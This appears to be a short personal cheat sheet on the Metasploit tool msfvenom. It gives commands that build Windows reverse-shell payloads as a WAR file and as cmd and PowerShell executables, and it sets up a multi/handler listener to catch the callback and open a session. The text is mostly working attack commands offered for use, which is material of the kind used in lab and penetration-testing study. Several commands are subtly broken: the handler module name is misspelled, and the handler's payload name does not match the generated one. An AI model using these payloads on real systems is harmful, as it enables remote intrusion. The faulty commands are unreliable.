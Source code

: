 # msfvenom

## Overview

msfvenom is a payload generator.
You can create reverse shells in many different formars

## Usage

### Getting a war payload

Create the payload

	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.46 LPORT=9001 -f war -o payload.war

Now start metasploit

	msfconsole

Use the handler that is gonna handle the reverse connection from the payload

	use exploit/multi/hander

Set the payload that we created with msfvenom

	set payload windows/x64/meterpreterreverse_tcp

Set the interfacte that the handler is gonna listen on waiting for the reverse connection

	set LHOST tun0

Set the port specified in the payload in msfvenom

	set LPORT 9001

Run the handler

	exploit -j

Now execute the war payload (by accessing the jsp inside) and we should have a connection.
When we have a session do

	sessions -i 1

To interact with it


### Getting a cmd .exe payload

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<mylocalhostip> LPORT=<myserverport> -f exe -o <name_of_the_exe>

### Getting a powershell .exe payload

msfvenom -p windows/x64/powershell_reverse_tcp LHOST=<mylocalhostip> LPORT=<myserverport> -f exe -o <name_of_the_exe>